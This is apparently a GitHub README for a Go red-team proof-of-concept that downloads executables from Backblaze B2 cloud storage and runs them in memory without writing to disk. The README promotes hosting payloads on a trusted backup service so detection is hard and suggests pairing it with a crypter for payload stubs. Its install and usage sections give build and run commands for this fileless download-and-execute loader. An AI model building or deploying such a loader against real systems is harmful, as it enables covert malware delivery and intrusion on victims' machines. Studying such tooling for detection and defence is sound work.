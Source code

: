 # Backblaze Memexec 

this is a POC redteaming Go utility that downloads any executable directly from Backblaze B2 cloud storage and runs them in memory without ever saving them to disk.

## Features
- Download payloads from a corporate trusted source, if the target is using this as a backup service, it will be very hard to detect.
- Execute payloads in memory without ever saving them to disk (especially useful if the payload you're executing is a stub of your executable created by https://github.com/carved4/gocrypter or a similar tool)
- Fully modular, payloads can be changed with the ease of a GUI upload to backblaze.
- Backblaze does not require a credit card or insecure email service to sign up.
- Bucket can be switched out easily via changing the hardcoded account ID, application key, and bucket name.
## Installation

```bash
go get github.com/carved4/backblaze-memexec
# Or clone the repository and build it manually
git clone https://github.com/carved4/backblaze-memexec.git
cd backblaze-memexec
# change the account ID, application key, and bucket name in the code.
go build -ldflags="-w -s" -trimpath -o backblaze.exe
# or for linux
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o backblaze
```

## Usage

```bash
# Run the default executable (test.exe) from the default bucket AFTER changing the account ID, application key, and bucket name in the code. 
# also, I recommend changing the DefaultExecutable in main.go from 'test.exe' to whatever the name of your file is before building so you don't have to pass in CLI args.
./membb

# Run a specific executable from the default bucket
./membb -file my_program.exe
# or
./membb my_program.exe

# Run with arguments
./membb -args "arg1,arg2,arg3"

# Run a different executable with arguments
./membb -file other_program.exe -args "arg1,arg2,arg3"
# or
./membb other_program.exe -args "arg1,arg2,arg3"
```

## How It Works

MemBB uses the [blazer](https://github.com/kurin/blazer) library to interact with Backblaze B2 API and download files. For in-memory execution, it uses [go-memexec](https://github.com/amenzhinsky/go-memexec) which allows executing binaries directly from memory without saving them to disk.

The entire process happens as follows:
1. Connect to Backblaze B2 using hardcoded credentials
2. Download the specified executable file (or test.exe by default) into memory
3. Use go-memexec to execute the file directly from memory
4. Pass any specified arguments to the executed process

## Security Considerations

- Obviosuly do not use an important (non throwaway) bucket for this, as reverse engineering of the binary may yield the plaintext creds
- The tool does not verify the integrity of downloaded executables
- I am not responsible for your actions, do not use this for malicious purposes.

## Requirements

- Go 1.18 or higher
- Valid Backblaze B2 bucket with appropriate executables

## License

[MIT License](LICENSE) 
